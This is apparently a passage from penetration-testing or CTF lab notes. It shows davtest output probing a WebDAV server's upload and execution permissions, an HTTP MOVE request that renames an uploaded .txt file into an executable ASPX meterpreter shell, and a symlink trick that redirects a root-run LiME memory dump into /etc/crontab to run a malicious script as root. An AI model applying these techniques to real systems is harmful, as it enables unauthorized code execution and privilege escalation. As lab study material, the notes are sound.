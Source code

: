     PUT txt   SUCCEED:  http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
    ********************************************************
      Checking for test file execution
    EXEC  pl    FAIL
    EXEC  html  SUCCEED:  http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
    EXEC  cfm   FAIL
    EXEC  jhtml FAIL
    EXEC  php   FAIL
    EXEC  jsp   FAIL
    EXEC  txt   SUCCEED:  http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
    
    ********************************************************
    /usr/bin/davtest Summary:
    Created: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0
    PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.pl
    PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
    PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.cfm
    PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jhtml
    PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.php
    PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jsp
    PUT File: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
    Executes: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
    Executes: http://10.54.98.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
    ```

    Now, we can see that pl, html, txt and other files can be uploaded. Now, if the MOVE method is enabled, we can upload a aspx meterpreter in a text file and then MOVE the .txt file to .aspx and execute the aspx file by using

    ```none
    MOVE /shell.txt HTTP/1.1
    Host: example.com
    Destination: /shell.aspx
    ```

  - In one of the VM, one of the task was to capture the RAM of the system by using LiME ~ Linux Memory Extractor ( which is executed by suid binary with root privileges ). Let's say the ramdump was saved at

    ```none
    /tmp/ramdump
    ```

    If, you create a symlink from /tmp/ramdump to /etc/crontab

    ```none
    ln -s /etc/crontab /tmp/ramdump
    ```

    Now, when the ramdump is taken, lime will now dump the content of RAM straight into /etc/crontab. As crontab will ignore everything which doesn’t match the correct syntax. If the memory contains a injected string such as

    ```none
    cat cron.py
    print "* * * * * root /bin/bash /home/username/evilscript"
    ```
  